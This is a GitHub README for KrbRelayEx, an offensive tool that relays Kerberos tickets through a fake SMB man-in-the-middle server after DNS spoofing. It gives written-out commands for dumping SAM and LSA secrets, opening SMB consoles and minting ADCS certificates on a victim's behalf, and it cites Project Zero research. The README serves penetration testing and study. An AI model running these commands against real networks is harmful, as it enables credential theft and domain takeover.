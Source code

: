 # KrbRelayEx

![Version](https://img.shields.io/badge/version-1.0-blue)  
Kerberos Relay and Forwarder for (Fake) SMB MiTM Server  
Created by [@decoder_it](https://github.com/decoder-it)

---

## Why this tool
I created this tool to explore and understand the offensive capabilities of DNSAdmins  group in Active Directory who can modify DNS records. While they are considered privileged users, there has been a lack of detailed explanations (apart CVE-2021-40469) on how this privilege could be abused.
It's important to note that manipulating DNS entries is not limited to DNS Admins. There are other scenarios where this might be possible, such as having DNS Zones with insecure updates enabled (yes, this is not that uncommon!!) or gaining control over HOSTS file entries on client computers.<br>
My goal was to test whether a Man-in-the-Middle (MitM) attack involving forwarding and Kerberos relaying could be successfully executed and abused after creating a spoofed DNS entry.
During my investigation, I discovered an existing tool, [krbjack](https://github.com/almandin/krbjack), which performs a similar attack by exploiting the *Insecure DNS Updates* flag. However, it was somewhat limited in scope.<br>
I developed this tool, starting from  [KrbRelay](https://github.com/cube0x0/KrbRelay), using .NET 8.0, making it compatible with both Windows and GNU/Linux platforms.
## Overview

**KrbRelayEx** is a tool designed for performing Man-in-the-Middle (MitM) attacks by relaying Kerberos AP-REQ tickets. It listens for incoming SMB connections and forwards the AP-REQ to the target host, enabling access to SMB shares or HTTP AD CS (Active Directory Certificate Services) endpoints on behalf the targeted identity.  

The tool can span several SMB consoles, and the relaying process is completely transparent to the end user, who will seamlessly access the desired share.  

GitHub Repository: [https://github.com/decoder-it/KrbRelayEx](https://github.com/decoder-it/KrbRelayEx)  


---

## Features

- Relay Kerberos AP-REQ tickets to access SMB shares or HTTP ADCS endpoints.
- Interactive or background multithreaded SMB consoles for managing multiple connections, enabling file manipulation and creating/starting services
- Multithreaded port forwarding to support other protocols.
- Transparent relaying process for seamless user access.
- Runs on Winodws and GNU/Linux with .NET 8.0 sdk

## Notes

  - KrbRelayEx intercepts and relays the first authentication attempt,
    then switches to forwarder mode for all subsequent incoming requests.
    You can press any time 'r' for restarting relay mode

  - This tool is particularly effective if you can manipulate DNS names. Examples include:
    - Being a member of the DNS Admins group.
    - Having zones where unsecured DNS updates are allowed in Active Directory domains ==> This means that anonymous users with network access could potentially take over the domain!!!
    - Gaining control over HOSTS file entries on client computers.
  - Background consoles are ideal for managing multiple SMB consoles
  
## Usage

```
        #############      KrbRelayEx by @decoder_it     ##############
        # Kerberos Relay and Forwarder for (Fake) SMB MiTM Server     #
        # v1.0 2024                                                   #
        # Github: https://github.com/decoder-it/KrbRelayEx            #
        ###############################################################

Description:
  KrbRelayEx is a tool designed for performing Man-in-the-Middle (MitM) attacks and relaying Kerberos AP-REQ tickets.
  It listens for incoming SMB connections and forward the AP-REQ to the target host, enabling access to SMB shares or HTTP ADCS (Active Directory Certificate Services endpoints)
  The tool can span several SMB consoles, and the relaying process is completely transparent to the end user, who will seamlessly access the desired share.

Usage:
  KrbRelayEx.exe -spn <SPN> [OPTIONS] [ATTACK]

SMB Attacks:
  -console                       Start an interactive SMB console
  -bgconsole                     Start an interactive SMB console in background via sockets
  -list                          List available SMB shares on the target system
  -bgconsolestartport            Specify the starting port for background SMB console sockets (default: 10000)
  -secrets                       Dump SAM & LSA secrets from the target system

HTTP Attacks:
  -endpoint <ENDPOINT>           Specify the HTTP endpoint to target (e.g., 'CertSrv')
  -adcs <TEMPLATE>               Generate a certificate using the specified template

Options:
  -redirectserver <IP>           Specify the IP address of the target server for the attack
  -ssl                           Use SSL transport for secure communication
  -spn <SPN>                     Set the Service Principal Name (SPN) for the target service
  -redirectports <PORTS>         Provide a comma-separated list of additional ports to forward to the target (e.g., '3389,135,5985')
  -smbport <PORT>                Specify the SMB port to listen on (default: 445)

Examples:
  Start an interactive SMB console:
    KrbRelay.exe -spn CIFS/target.domain.com -console -redirecthost <ip_target_host>

  List SMB shares on a target:
    KrbRelay.exe -spn SMB/target.domain.com -list

  Dump SAM & LSA secrets:
    KrbRelay.exe -spn CIFS/target.domain.com -secrets -redirecthost <ip_target_host>

  Start a background SMB console on port 10000 upon relay:
    KrbRelay.exe -spn CIFS/target.domain.com -bgconsole -redirecthost <ip_target_host>

  Generate a certificate using ADCS with a specific template:
    KrbRelay.exe -spn HTTP/target.domain.com -endpoint CertSrv -adcs UserTemplate-redirecthost <ip_target_host>

  Relay attacks with SSL and port forwarding:
    KrbRelay.exe -spn HTTP/target.domain.com -ssl -redirectserver  <ip_target_host> -redirectports 3389,5985,135,443,80
```
# Acknowledgements
Project Zero :

https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html
https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html

KrbRelay:


https://github.com/cube0x0/KrbRelay

